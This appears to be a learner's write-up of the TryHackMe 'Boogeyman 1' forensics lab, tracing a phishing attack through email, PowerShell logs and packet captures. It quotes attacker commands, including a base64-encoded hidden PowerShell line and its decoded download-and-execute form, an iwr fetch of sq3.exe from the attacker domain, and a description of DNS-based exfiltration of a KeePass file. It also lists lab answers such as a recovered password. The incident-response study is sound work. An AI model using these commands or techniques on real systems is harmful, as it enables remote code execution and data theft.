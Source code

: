 ##### This version was my own and was not enhanced by AI.

#### Personal Notes and tips: sq3.exe seems to be what the attacker used against the SQLite database. --important to remember for the future
---
# Boogeyman 1 Notes:

## Email Investigation
---
Opened up the eml file

Phish Email:
agriffin@bpakcaging.xyz

Victim's Email:
julianne.westcott@hotmail.com

Looking inside the zip without extracting:
unzip -l Invoice.zip

The .zip file is password protected

Found the password within the email data:
"invoice2023!"

Used the command:

unzip -P Invoice2023! Invoice.zip

was the correct password and inflated the file within;

"Invoice_20230103.lnk"

Using lnkparse on the .lnk file reveals a command line within it

From the lnkparse command:

"Command line arguments: 

```bash
-nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA=="
```

Using CyberChef, I included 'From Base64' and 'Remove null bytes', the result?

```iex (new-object net.webclient).downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update')```
- is defanged for safety

unsure what the command is, or why its there, I continue the investigation
---------------------------------

## Endpoint Investigation
---------------------------------
Found a GitHub url within the powershell.json file within the Artefacts folder.

```"hxxps[://]github[.]com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt[.]ps1"```

Found another suspicious link:
```"iwr hxxp[://]files[.]bpakcaging[.]xyz/sq3[.]exe -outfile sq3[.]exe;pwd"```

Extracted (and defanged) Domains:
```cdn[.]bpakcaging[.]xyz,files[.]bpakcaging[.]xyz```

Found more:
```C:\\Users\\j.westcott\\Documents\\protected_data.kdbx;pwd```

Vital piece?
```C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAd```

Brainstorming with trial and error:
```bash cat powershell.json | jq '{path}'```

```bash cat powershell.json | jq '{ContextInfo}'```

```bash cat powershell.json | jq '{ScriptBlockText}'```


###### found something:

.\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\;pwd

Additional note: sq3.exe was used to view (and exfiltrate?) data in the SQLite database on the victim's computer.

used cat powershell.json | grep AppData, found plum.sqlite in the same similar path as ".\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\;pwd"

plum.sqlite

Complete Reconstructed Path:

C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite

the malicious file was using Microsoft Sticky Notes as the execution point?

the exfiltrated file was 'protected_data.kdbx'

cat powershell.json | jq '{ContextInfo, ScriptBlockText}'

The threat actor used .split to split the file into many pieces while encoding them all in hex for transmission to their C2

super helpful command: cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]' | jq '{ScriptBlockText}' | sort | uniq -c

C2 IP: 167[.]71[.]211[.]113
C2 Domain: cdn.bpakcaging.xyz
C2 port: 8080

the Threat Actor abused the windows service 'nslookup' to transmission the data to their C2.

---
## Network Investigation
---

### Wireshark:
using the 'http contains "files.bpakcaging.xyz" we found that they were using python to host the site files site by checking Packet 42702's TCP Stream.

The attacker used HTTP POST requests for the outputs of the commands executed.

The attacker used DNS during the exfiltration activity.

The attacker used sq3.exe to find the password to the file 'protected_data.kdbx', the password was stored in the plum.sqlite file, the password being "%p9^3!lL^Mz47E2GaT^y".

---

### Tshark:

Now using Tshark to obtain whatever information the attacker stole from within the file.

Commands used:

```tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name -e dns.qry.type (filtering by.. dns query type?)```

```tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz"``` (see the data filtered via dns of the domain traffic of the website with '.' to get any and all subdomains in the .pcapng file)

```tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.' ```(gives us only the field 1 data strings)

```tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.' | grep -v -e "files" -e "cdn" ``` (sorted "files" and "cdn" out of the command results) 

```tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.' | grep -v -e "files" -e "cdn" | uniq | tr -d '\\n'``` 

```tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.' | grep -v -e "files" -e "cdn" | uniq | tr -d '\\n' > output.txt``` (outputted info to a .txt file)

```>> ~/Desktop/answers.txt``` (append the info into a new file)

use cyberchef FROM HEX, save output as .kdbx extension
(do this in a VM or sandbox in case its malware, you never know when reconstructing files)

then use a program to view the .kdbx file and its contents for the last answer in Boogeyman 1 of TryHackMe
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
# ===FINISH CTF===

